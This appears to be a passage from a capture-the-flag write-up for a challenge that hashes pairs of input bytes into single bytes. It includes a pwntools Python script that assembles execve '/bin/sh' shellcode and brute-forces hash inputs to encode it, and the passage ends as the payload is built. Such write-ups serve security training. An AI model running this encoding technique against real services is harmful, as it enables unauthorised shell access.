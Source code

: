 Observing ```hash_byte``` suggests that it will take in two bytes and create a single output byte. It will choose one of four hash algorithms from:
```c
hash_algo_t HASH_ALGOS[] = {
    EVP_md5,
    EVP_sha1,
    EVP_sha256,
    EVP_sha512};
```
based on the current index- and this is circular, meaning the first two bytes will be processed by MD5, the second SHA-1, the third SHA-256, the fourth SHA-512, and back to MD5.

### Planning

We could only create an encoded shellcode where each two bytes, when digested by hash, corresponds to each byte of the actual shellcode and send it.

This can be achieved by:
- writing the shellcode
- brute force 2-byte input for hash to match each byte of shellcode
- construct & send the encoded payload

## Exploit

A Python exploit that reciprocates the above plan can be written as:
```python
#!/usr/bin/python3
from pwn import *
import hashlib

context.log_level='debug'
context.arch='amd64'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

ru 		= lambda a: 	p.readuntil(a)
r 		= lambda n:		p.read(n)
sla 	= lambda a,b: 	p.sendlineafter(a,b)
sa 		= lambda a,b: 	p.sendafter(a,b)
sl		= lambda a: 	p.sendline(a)
s 		= lambda a: 	p.send(a)

sc = asm(f'''
lea rdi, [rip+binsh]
xor rdx, rdx
xor rsi, rsi
mov eax, 59
syscall
binsh: .asciz "/bin/sh"
''')

payload = b''
for i, c in enumerate(sc):
    for j in range(2**16): # brute force 2 bytes
        if i % 4 == 0: m = hashlib.md5() # initialize everytime!!!
        elif i % 4 == 1: m = hashlib.sha1()
        elif i % 4 == 2: m = hashlib.sha256()
        elif i % 4 == 3: m = hashlib.sha512()
        m.update(p16(j)) # 2 byte input
        if m.digest()[0] == c: # match found
            payload += p16(j)
            break
    else: 
        log.critical("Hash crack fail") # after all iterations
        exit()

```